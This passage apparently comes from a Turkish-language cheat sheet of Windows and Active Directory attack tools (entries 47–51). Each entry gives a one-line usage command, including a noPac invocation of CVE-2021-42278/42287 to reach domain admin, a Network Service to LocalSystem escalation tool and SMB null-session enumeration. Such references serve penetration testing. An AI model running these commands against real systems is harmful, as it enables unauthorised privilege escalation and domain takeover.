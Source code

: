 
## 47. NetworkServiceExploit
**Kısa Tanım**: Windows “Network Service” kimliğinden LocalSystem’e yükselme PoC’leri.  
**Usage**:
```powershell
.\NetworkServiceExploit.exe
```
**GitHub**: [Araştırınız]

---

## 48. noPac
**Kısa Tanım**: CVE-2021-42278 & CVE-2021-42287 birleşimi “noPac” exploit aracı (domain admin’e yükselme).  
**Usage**:
```bash
python3 noPac.py domain.local/username -p Pass123 --dc-ip 10.0.0.10
```
**GitHub**: [https://github.com/Ridter/noPac](https://github.com/Ridter/noPac)

---

## 49. NoPowerShell
**Kısa Tanım**: PowerShell komutlarını PowerShell olmadan çalıştırmaya yarayan bir “PowerShell-less” .NET host.  
**Usage**:
```powershell
NoPowerShell.exe -c "Get-Process"
```
**GitHub**: [https://github.com/bitsadmin/nopowershell](https://github.com/bitsadmin/nopowershell)

---

## 50. Nullinux
**Kısa Tanım**: SMB null session ile kullanıcı, grup, paylaşımlar vb. enum yapan eski bir script.  
**Usage**:
```bash
./nullinux.sh 10.0.0.10
```
**GitHub**: [https://github.com/m8r0wn/nullinux](https://github.com/m8r0wn/nullinux)

---

## 51. nmapAutomator
**Kısa Tanım**: Nmap taramasını yarı otomatikleştiren bash script. AD portları (445,135,389,88 vb.) dahil tarama kolaylığı sağlar.  
**Usage**:
```bash
./nmapAutomator.sh 10.0.0.10 quick
```
**GitHub**: [https://github.com/21y4d/nmapAutomator](https://github.com/21y4d/nmapAutomator)

---